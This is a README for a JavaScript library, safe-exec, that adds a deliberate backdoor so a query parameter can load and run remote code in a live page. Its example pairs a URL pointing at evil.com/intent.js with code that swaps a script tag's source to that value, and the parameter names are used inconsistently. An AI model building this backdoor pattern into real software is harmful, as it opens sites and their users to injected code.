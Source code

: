 # safe-exec

[![Build Status](https://travis-ci.org/pori/safe-exec.svg?branch=master)](https://travis-ci.org/pori/safe-exec)

Controlled remote code execution. Great for debugging on a live server. Extremely dangerous for everything else.

Uses RSA key pairs.

# Installation

Via [npm](https://www.npmjs.com/package/safe-exec):

```sh
npm install safe-exec
```

Via bower:

```sh
bower install safe-exec
```

# Test

```sh
make test
```

# Example

Visit page with very some specific query parameters:

* `publicKey` - plain text passphrase. _WARNING: Persisted in session._
* `message` - _optional_ value of any kind.

```
http://example.com?privateKey=foobar&message=http://evil.com/intent.js
```

Then somewhere in your code:

```js
exec(location.search, 'somereallylongcipher', sessionStorage, (message) => {
  let victim = document.querySelector('script[src="foobar.js"]');

  victim.setAttribute('src', message);
});
```

# FAQ

## _Wow this is a great idea! Should I use this in production?_

You should *never* use this in a production environment. This library creates an intentional backdoor for your front-end, which is a huge security risk.

## _Why would you intentionally build a backdoor?_

This is useful for environments that are difficult replicate on your local machine. It helps to speed up development and debugging.

# API

## exec(search, publicKey, sessionStorage, cb) 	&rarr; boolean

Executes code if a valid public/private key pair is present.

* `search` - should just be `window.location.search`.
* `publicKey` - any valid RSA public key.
* `sessionStorage` - pass a reference to DOM `sessionStorage` to persist execution across session.
* `cb` - callback `message => ` where code execution is defined.

Returns `true` on success and `false` on failure.

# License

MIT

---

> [pori.io](http://pori.io) &nbsp;&middot;&nbsp;
> GitHub [@pori](https://github.com/pori) &nbsp;&middot;&nbsp;
> Twitter [@pori_alex](https://twitter.com/pori_alex)
